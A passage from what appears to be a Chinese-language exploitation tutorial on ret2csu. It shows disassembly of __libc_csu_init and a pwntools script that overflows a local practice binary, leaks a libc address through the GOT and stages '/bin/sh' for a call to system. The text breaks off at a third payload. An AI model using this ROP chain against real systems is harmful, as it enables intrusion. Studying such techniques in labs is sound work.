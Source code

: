 ```
frame_dummy
__libc_csu_init
__libc_csu_fini
_fini
```
## 5.1. __libc_csu_init
一般来说，只要程序调用了libc.so，程序都会有这个函数用来对libc进行初始化操作。
```python
# encoding:utf-8
# objdump -d ./level5观察到的__libc_csu_init()
"""
  4011c8:       4c 89 f2                mov    %r14,%rdx
  4011cb:       4c 89 ee                mov    %r13,%rsi
  4011ce:       44 89 e7                mov    %r12d,%edi
  4011d1:       41 ff 14 df             callq  *(%r15,%rbx,8)
  4011d5:       48 83 c3 01             add    $0x1,%rbx
  4011d9:       48 39 dd                cmp    %rbx,%rbp
  4011dc:       75 ea                   jne    4011c8 <__libc_csu_init+0x38>
  4011de:       48 83 c4 08             add    $0x8,%rsp
  4011e2:       5b                      pop    %rbx
  4011e3:       5d                      pop    %rbp
  4011e4:       41 5c                   pop    %r12
  4011e6:       41 5d                   pop    %r13
  4011e8:       41 5e                   pop    %r14
  4011ea:       41 5f                   pop    %r15
  4011ec:       c3                      retq   
"""
from pwn import *
# 打开文件
libc = ELF('libc.so.6')
elf = ELF('level5')
p = process('./level5')
# 获取system函数的地址偏移
got_write = elf.got['write']
got_read = elf.got['read']
main_addr = 0x401153
p.recvuntil("\n")
# 通过漏洞利用打印出write函数的内存地址
# 136填充+返回地址+rbx+rbp+r12(rdi)+r13(rsi)+r14(rdx)+r15+retq
raw_input("")
payload1 = "A" * 136 + p64(0x4011e2) + p64(0) + p64(1) + p64(1) + p64(got_write) + p64(8) + p64(got_write) + p64(0x4011c8)
# 填充栈，返回主函数
payload1 += ("A" * 56 + p64(main_addr))
p.send(payload1)
write_addr = u64(p.recv(8))
print "write address:" + hex(write_addr)
system_addr = write_addr + (libc.symbols["system"] - libc.symbols["write"])
print "system address:" + hex(system_addr)
p.recvuntil("\n")
# 发送第二段payload，写入binsh
bss_addr = 0x0000000000404038
payload2 = "A" * 136 + p64(0x4011e2) + p64(0) + p64(1) + p64(0) + p64(bss_addr) + p64(16) + p64(got_read) + p64(0x4011c8)
# 填充栈，返回主函数
payload2 += ("A" * 56 + p64(main_addr))
p.send(payload2)
p.send(p64(system_addr))
p.send("/bin/sh\0")
p.recvuntil("\n")
# 发送第三段payload，执行
```